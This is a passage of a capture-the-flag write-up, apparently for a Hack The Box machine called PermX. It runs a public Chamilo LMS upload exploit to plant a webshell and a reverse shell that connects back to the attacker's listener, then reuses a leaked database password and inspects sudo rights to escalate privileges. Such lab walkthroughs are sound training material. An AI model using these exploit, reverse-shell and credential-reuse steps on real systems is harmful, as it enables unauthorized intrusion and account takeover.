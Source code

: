 The exploit I'll be using can be found [here](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc)

```terminal
python3 main.py -u http://lms.permx.htb/ -a scan
[+] Target is likely vulnerable. Go ahead. [+]
```

The target is vulnerable, now let's get a reverse shell.

```terminal
python3 main.py -u http://lms.permx.htb/ -a revshell

Enter the name of the webshell file that will be placed on the target server (default: webshell.php): hack.php
Enter the name of the bash revshell file that will be placed on the target server (default: revshell.sh): hack.sh
Enter the host the target server will connect to when the revshell is run: 10.10.16.49
Enter the port on the host the target server will connect to when the revshell is run: 9001

[!] BE SURE TO BE LISTENING ON THE PORT THAT YOU DEFINED [!] 
```

We check our listener and see the shell.

```terminal
$ nc -lvnp 9001              
listening on [any] 9001 ...
connect to [10.10.16.49] from (UNKNOWN) [10.10.11.23] 55966
bash: cannot set terminal process group (1173): Inappropriate ioctl for device
bash: no job control in this shell
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ 
```

## **Privilege Escalation**

Running linpeas we are able to find the database password of `chamilo`.

![linpeas](3.png)

We can use the password to change to user `mtz`.

```terminal
www-data@permx:/tmp$ su mtz
Password: 
mtz@permx:/tmp$
```

Let's check our privileges

```bash
mtz@permx:/tmp$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```
